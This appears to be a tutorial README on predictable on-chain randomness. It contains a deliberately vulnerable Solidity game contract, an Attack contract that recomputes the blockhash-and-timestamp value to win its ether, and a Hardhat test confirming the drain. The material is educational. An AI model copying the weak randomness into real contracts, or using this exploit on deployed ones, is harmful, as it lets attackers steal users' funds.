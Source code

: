 # Source of Randomness

Today we will learn how using `blockhash` and `block.timestamp` is a false source of randomness

## Requirements

- We will build a game where there is a pack of cards.
- Each card has a number associated with it which ranges from `0 to 2²⁵⁶–1`
- Player will guess a number that is going to be picked up.
- The dealer will then at random pick up a card from the pack
- If someone correctly guesses the number, they win `0.1 ETH`
- We will hack this game today :)

## Build

To build the smart contract we will be using [Hardhat](https://hardhat.org/).
Hardhat is an Ethereum development environment and framework designed for full stack development in Solidity. In simple words you can write your smart contract, deploy them, run tests, and debug your code.

- In you folder, you will set up a Hardhat project

  ```bash
  npm init --yes
  npm install --save-dev hardhat
  ```

- In the same directory where you installed Hardhat run:

  ```bash
  npx hardhat
  ```

  - Select `Create a basic sample project`
  - Press enter for the already specified `Hardhat Project root`
  - Press enter for the question on if you want to add a `.gitignore`
  - Press enter for `Do you want to install this sample project's dependencies with npm (@nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers)?`

Now you have a hardhat project ready to go!

If you are not on mac, please do this extra step and install these libraries as well :)

```bash
npm install --save-dev @nomiclabs/hardhat-waffle ethereum-waffle chai @nomiclabs/hardhat-ethers ethers
```

- Lets first understand what `abi.encodedPacked` does, For that please go ahead and read this [article](https://medium.com/@libertylocked/what-are-abi-encoding-functions-in-solidity-0-4-24-c1a90b5ddce8)

- Create a file named as `Game.sol` inside your `contracts` folder and add the following lines of code.

  ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;

    contract Game {
    constructor() payable {}

        /**
            Randomly picks a number out of `0 to 2²⁵⁶–1`.
        */
        function pickACard() private view returns(uint) {
            // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
            // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
            // which is further converted to a `uint`.
            // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
            uint pickedCard = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
            return pickedCard;
        }

        /**
            It begins the game by first choosing a ramdom number by calling `pickACard`
            It then verifies if the random number selected is equal to `_guess` passed by the player
            If the player guessed the correct number, it sends the player `0.1 ether`
        */
        function guess(uint _guess) public {
            uint _pickedCard = pickACard();
            if(_guess == _pickedCard){
                (bool sent,) = msg.sender.call{value: 0.1 ether}("");
                require(sent, "Failed to send ether");
            }
        }

        /**
            Returns the balance of ether in the contract
        */
        function getBalance() view public returns(uint) {
            return address(this).balance;
        }

    }
  ```

- Now create a file called as `Attack.sol` inside your `contracts` folder and add the following lines of code.

  ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.4;

    import "./Game.sol";

    contract Attack {
        Game game;
        /**
            Creates an instance of Game contract with the help of `gameAddress`
        */
        constructor(address gameAddress) {
            game = Game(gameAddress);
        }

        /**
            attacks the `Game` contract by guessing the exact number because `blockhash` and `block.timestamp`
            is accessible publically
        */
        function attack() public {
            // `abi.encodePacked` takes in the two params - `blockhash` and `block.timestamp`
            // and returns a byte array which further gets passed into keccak256 which returns `bytes32`
            // which is further converted to a `uint`.
            // keccak256 is a hashing function which takes in a bytes array and converts it into a bytes32
            uint _guess = uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)));
            game.guess(_guess);
        }

        // Gets called when the contract recieves ether
        receive() external payable{}
    }
  ```

- How the attack takes place is as follows:

  - The hacker calls the `attack` function from the `Attack.sol`
  - `attack` further guesses the number using the same method as `Game.sol` which is
    `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))`
  - Attacker is able to guess the same number because blockhash and block.timestamp is public information and everybody has access to it
  - The attacker then calls the `guess` function from `Game.sol`
  - `guess` first calls the `pickACard` function which generates the same number using `uint(keccak256(abi.encodePacked(blockhash(block.number), block.timestamp)))` because `pickACard` and `attack` were both called in the same block.
  - `guess` compares the numbers and they turn out to be the same.
  - `guess` then sends the `Attack.sol` `0.1 ether` and the game ends
  - Attacker is successfully able to guess the random number

- Now lets write some tests to verify if it works exactly as we hoped.

- Create a new file named `attack.js` inside the `test` folder and add the following lines of code

  ```javascript
  const { ethers, waffle } = require("hardhat");
  const { expect } = require("chai");
  const { BigNumber, utils } = require("ethers");

  describe("Attack", function () {
    it("Should be able to guess the exact number", async function () {
      // Deploy the Game contract
      const Game = await ethers.getContractFactory("Game");
      const _game = await Game.deploy({ value: utils.parseEther("0.1") });
      await _game.deployed();

      console.log("Game contract address", _game.address);

      // Deploy the attack contract
      const Attack = await ethers.getContractFactory("Attack");
      const _attack = await Attack.deploy(_game.address);

      console.log("Attack contract address", _attack.address);

      // Attack the Game contract
      const tx = await _attack.attack();
      await tx.wait();

      const balanceGame = await _game.getBalance();
      // Balance of the Game contract should be 0
      expect(balanceGame).to.equal(BigNumber.from("0"));
    });
  });
  ```

- Now open up a terminal pointing to `Source-of-Randomness` folder and execute this

  ```bash
  npx hardhat compile
  ```

- If all your tests passed, you have sucessfully completed the hack :)

## Preventions

- Don't use `blockhash` and `block.timestamp` as source of randomness
